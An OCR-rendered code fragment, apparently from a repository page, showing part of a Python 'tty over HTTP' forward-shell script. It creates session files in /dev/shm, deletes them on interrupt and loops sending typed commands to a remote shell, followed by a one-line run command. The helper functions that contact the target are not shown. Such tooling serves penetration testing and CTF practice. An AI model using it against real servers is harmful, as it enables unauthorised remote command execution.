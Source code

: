 ```python
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

And then, run it:
```shell
python3 tty_over_http.py
```